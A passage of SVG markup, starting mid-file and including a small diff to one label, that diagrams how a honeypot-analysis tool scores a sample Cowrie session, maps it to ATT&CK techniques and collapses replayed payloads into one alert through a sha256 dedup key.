      <text x="512" y="590" fill="#8A8A84">ran ≥1 cmd &amp; closed &lt; 15 s ?</text>
      <text x="996" y="590" text-anchor="end" fill="#5C5C57">no (42.7 s) → no demotion</text>
    </g>
  </g>
  <g>
    <rect x="492" y="624" width="516" height="150" rx="7" fill="#0c130f" stroke="#1f3a2c" />
    <rect x="492" y="624" width="4" height="150" rx="2" fill="#3DD68C" />
    <text x="512" y="648" fill="#3DD68C" font-size="12.5" letter-spacing="1">④ dedup_key — ORDER-INDEPENDENT SIGNATURE</text>
    <text x="996" y="648" text-anchor="end" fill="#3DD68C" font-size="12">exact · sha256</text>
    <text x="512" y="672" fill="#C7C7C2" font-size="11">sha256( "\n".join( <tspan fill="#3DD68C">sorted</tspan>(commands) ) )[:16]</text>
    <text x="512" y="694" fill="#8A8A84" font-size="10.5">sorting kills sequence order → the same payload in any order collapses to one key</text>
    <rect x="512" y="704" width="484" height="28" rx="6" fill="#101a16" stroke="#3DD68C" stroke-opacity="0.5" />
    <text x="528" y="723" fill="#8A8A84" font-size="11.5">dedup_key</text>
    <text x="980" y="723" text-anchor="end" fill="#3DD68C" font-size="13" font-weight="700" letter-spacing="2">905830e685fbbb20</text>
    <text x="512" y="754" fill="#5C5C57" font-size="10.5">InMemoryDedupStore · 15-min TTL window → first hit alerts, identical replays suppressed</text>
  </g>
  <path d="M1030,440 C1056,440 1056,300 1080,280" fill="none" stroke="#3DD68C" stroke-width="2" marker-end="url(#ahGreen)" />
  <circle cx="1240" cy="600" r="118" fill="url(#dedupGlow)" filter="url(#soft)" />
  <rect x="1080" y="150" width="320" height="720" rx="10" fill="url(#recGrad)" stroke="#1f3a2c" />
  <text x="1100" y="180" fill="#C7C7C2" font-size="13" letter-spacing="1">analyze_session() → dict</text>
  <line x1="1100" y1="194" x2="1380" y2="194" stroke="#1f3a2c" />
  <g font-size="12">
    <text x="1100" y="224" fill="#8A8A84">session_id</text>
    <text x="1380" y="224" text-anchor="end" fill="#F4F4F2">a1b2c3d4</text>
    <text x="1100" y="250" fill="#8A8A84">src_ip</text>
    <text x="1380" y="250" text-anchor="end" fill="#F4F4F2">203.0.113.10</text>
    <text x="1100" y="276" fill="#8A8A84">dominant_stage</text>
    <text x="1380" y="276" text-anchor="end" fill="#4C8DFF">reconnaissance</text>
    <text x="1100" y="302" fill="#8A8A84">progression</text>
    <text x="1380" y="302" text-anchor="end" fill="#C7C7C2">[reconnaissance]</text>
    <text x="1100" y="328" fill="#8A8A84">techniques</text>
-     <text x="1380" y="328" text-anchor="end" fill="#C7C7C2">6 · T1082…T1592</text>
+     <text x="1380" y="328" text-anchor="end" fill="#C7C7C2">6 · T1016…T1595</text>
    <text x="1100" y="354" fill="#8A8A84">confidence</text>
    <text x="1380" y="354" text-anchor="end" fill="#C7C7C2">0.85</text>
    <text x="1100" y="380" fill="#8A8A84">actor_label</text>
    <text x="1380" y="380" text-anchor="end" fill="#C7C7C2">automated_scanner</text>
    <text x="1100" y="406" fill="#8A8A84">campaign_indicators</text>
    <text x="1380" y="406" text-anchor="end" fill="#5C5C57">[ ]</text>
    <text x="1100" y="432" fill="#8A8A84">dedup_key</text>
    <text x="1380" y="432" text-anchor="end" fill="#3DD68C">905830e685fbbb20</text>
  </g>
  <rect x="1100" y="452" width="280" height="34" rx="6" fill="#101214" stroke="#F5A524" stroke-opacity="0.55" />
  <text x="1116" y="474" fill="#8A8A84" font-size="12">score</text>
  <text x="1364" y="474" text-anchor="end" fill="#F5A524" font-size="14" font-weight="700">31 / 100</text>
  <line x1="1100" y1="510" x2="1380" y2="510" stroke="#1f3a2c" stroke-dasharray="3 4" />
  <text x="1100" y="538" fill="#5C5C57" font-size="11" letter-spacing="1">REPLAY COLLAPSE</text>
  <g>
    <circle cx="1130" cy="600" r="12" fill="#101214" stroke="#5C5C57" stroke-width="1.4" />
    <text x="1130" y="604" text-anchor="middle" fill="#8A8A84" font-size="9">IP</text>
    <circle cx="1130" cy="640" r="12" fill="#101214" stroke="#5C5C57" stroke-width="1.4" />
    <text x="1130" y="644" text-anchor="middle" fill="#8A8A84" font-size="9">IP</text>
    <circle cx="1130" cy="680" r="12" fill="#101214" stroke="#5C5C57" stroke-width="1.4" />
    <text x="1130" y="684" text-anchor="middle" fill="#8A8A84" font-size="9">IP</text>
    <text x="1130" y="716" text-anchor="middle" fill="#5C5C57" font-size="10">…×N</text>
    <path d="M1146,602 C1200,606 1210,628 1248,640" fill="none" stroke="#3DD68C" stroke-opacity="0.6" stroke-width="1.4" />
    <path d="M1146,640 L1248,640" fill="none" stroke="#3DD68C" stroke-opacity="0.6" stroke-width="1.4" />
    <path d="M1146,678 C1200,674 1210,652 1248,640" fill="none" stroke="#3DD68C" stroke-opacity="0.6" stroke-width="1.4" />
    <circle cx="1278" cy="640" r="34" fill="#101a16" stroke="#3DD68C" stroke-width="2" />
    <text x="1278" y="636" text-anchor="middle" fill="#3DD68C" font-size="10" letter-spacing="1">1 ALERT</text>
    <text x="1278" y="652" text-anchor="middle" fill="#F4F4F2" font-size="11" font-weight="700">9058…b20</text>
  </g>
  <text x="1100" y="752" fill="#5C5C57" font-size="10.5">same payload from a botnet's worth of</text>
  <text x="1100" y="768" fill="#5C5C57" font-size="10.5">IPs → one incident, not N pages</text>
  <rect x="1100" y="788" width="280" height="34" rx="6" fill="#101a16" stroke="#3DD68C" />
  <text x="1116" y="810" fill="#8A8A84" font-size="12">triage</text>
  <text x="1364" y="810" text-anchor="end" fill="#3DD68C" font-size="13" font-weight="700" letter-spacing="1">RECON · LOW-MED</text>
  <text x="1100" y="844" fill="#5C5C57" font-size="10.5">optional [llm] enrichment never touches the</text>
  <text x="1100" y="860" fill="#5C5C57" font-size="10.5">deterministic score or actor label</text>
  <line x1="40" y1="892" x2="1400" y2="892" stroke="#23262B" />
  <g font-size="11.5">
    <circle cx="48" cy="918" r="4" fill="#4C8DFF" />
    <text x="60" y="922" fill="#8A8A84">ATT&amp;CK mapping (substring table)</text>
    <circle cx="330" cy="918" r="4" fill="#F5A524" />
    <text x="342" y="922" fill="#8A8A84">heuristic — score / coarse actor label</text>
    <circle cx="660" cy="918" r="4" fill="#3DD68C" />
    <text x="672" y="922" fill="#8A8A84">deterministic exact — sha256 dedup key</text>
    <text x="1400" y="922" text-anchor="end" fill="#5C5C57">illustrative values from examples/sample_cowrie.json · honeypot-mitre (MIT) · WraithWall</text>
  </g>
</svg>
